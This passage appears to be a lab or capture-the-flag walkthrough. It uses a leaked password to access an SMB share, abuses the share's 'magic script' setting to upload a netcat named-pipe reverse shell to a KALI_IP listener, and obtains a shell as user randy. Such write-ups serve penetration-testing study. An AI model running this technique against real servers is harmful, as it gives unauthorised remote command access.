 **Login to SMB share using randy's password (**`pogiako`**):**

```bash
└─$ smbclient \\\\192.168.5.122\\SYSADMIN --user=randy
Enter WORKGROUP\randy's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr 10 18:13:45 2022
  ..                                  D        0  Sun Apr 10 17:36:23 2022
  reminder.txt                        N      193  Sun Apr 10 17:59:06 2022
  smb.conf                            N     9097  Sat Apr  9 13:32:20 2022
  help.txt                            N     4663  Sun Apr 10 17:59:43 2022

                8704372 blocks of size 1024. 434040 blocks available
```

**View the contents of the** `smb.conf` ** file use** `get` **command to download the file) to discover a** `magic script` **is defined in the smb server config:**

```bash
[SYSADMIN]

path = /home/randy/smbshare
valid users = randy
browsable = yes
writeable = yes
read only = no
magic script = smbscript.elf
guest ok = no
```

**In KALI, Create a bash script file named** `smbscript.elf` **containing the following [[_MOCS/Reverse Shells]] command (replace KALI_IP):**

```bash
mknod backpipe p; nc KALI_IP 31337 0<backpipe | /bin/bash 1>backpipe
```

**Start a netcat listener in KALI to receive the [[_MOCS/Reverse Shells]]:**

```bash
nc -nvlp 31337
```

**Then, in the SMB client, put the** `smbscript.elf` **into the** `SYSADMIN` **share to launch the [[_MOCS/Reverse Shells]]:**

```bash
smb: \> put smbscript.elf 
NT_STATUS_IO_TIMEOUT closing remote file \smbscript.elf
```

**We now have a working interactive command shell:**

```bash
nc -nvlp 31337
listening on [any] 31337 ...
connect to [192.168.5.10] from (UNKNOWN) [192.168.5.122] 38242
id
uid=1000(randy) gid=1000(randy) groups=1000(randy),133(sambashare)
```
